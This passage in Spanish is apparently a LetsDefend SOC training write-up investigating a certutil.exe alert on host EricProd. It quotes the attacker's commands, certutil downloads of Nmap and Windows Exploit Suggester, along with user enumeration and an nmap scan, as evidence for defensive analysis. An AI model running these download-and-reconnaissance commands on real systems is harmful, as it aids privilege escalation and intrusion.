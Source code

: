 Related Binary: certutil.exe

Binary Path: C:/Windows/System32/certutil.exe

Command Line: certutil.exe -urlcache -split -f https://nmap.org/dist/nmap-7.92-win32.zip nmap.zip

Alert Trigger Reason: -f parameter with certutil.exe

EDR Action: Allowed

Este evento parece estar relacionado con la ejecución de la utilidad de línea de comandos certutil.exe en un host llamado EricProd con la dirección IP **172.16.17.22** . El comando específico utilizado fue **"certutil.exe -urlcache -split -f https://nmap.org/dist/nmap-7.92-win32.zip nmap.zip".**

**Certutil.exe** es un programa de línea de comandos diseñado por Microsoft que se utiliza **para volcar y ver información de configuración de la autoridad certificadora (CA)** , configurar servicios de certificados, realizar copias de seguridad y restaurar componentes de CA y verificar certificados, pares de claves y cadenas de certificados.

Primero analizaremos el historial de comando: 

![Untitled](LETS%20DEFEND%20f493cfd9fd874a9894969c99fc722e2a/Untitled%20141.png)

Del primer análisis de los comandos ejecutados entre las 10:11 a.m. y las 10:27 a.m., resulta inmediatamente evidente que el comando **net user** se ejecuta para identificar **todas las cuentas de usuario** en la computadora. Otros comandos se ejecutan para detectar la **configuración de red del sistema** y detectar **procesos en ejecución** .

Dos comandos certutil.exe muy interesantes se ejecutan entre las 11:06 y las 11:07 am. El primero:

```jsx
certutil.exe -urlcache -split -f https://nmap.org/dist/nmap-7.92-setup.exe nmap.zip
```

Éste se utiliza para descargar Nmap al dispositivo.

```jsx
*certutil.exe -urlcache -split -f https://raw.githubusercontent.com/AonCyberLabs/Windows-Exploit-Suggester/master/windows-exploit-suggester.py check.py*
```

El segundo comando explota la misma técnica que el comando anterior y se utiliza para descargar **Windows Exploit Suggestor** de Internet, que utilizan **los piratas informáticos** para obtener **acceso privilegiado** a **los sistemas host** .

Ahora comprobemos si efectivamente se ha establecido una conexión, como podemos ver si ha habido conexión:

![Untitled](LETS%20DEFEND%20f493cfd9fd874a9894969c99fc722e2a/Untitled%20142.png)

![Untitled](LETS%20DEFEND%20f493cfd9fd874a9894969c99fc722e2a/Untitled%20143.png)

![Untitled](LETS%20DEFEND%20f493cfd9fd874a9894969c99fc722e2a/Untitled%20144.png)

A continuación podemos leer de los comandos ejecutados que se realiza un **escaneo con nmap para verificar si el puerto 80 (HTTP)** está abierto.

Los siguientes pasos indican que:
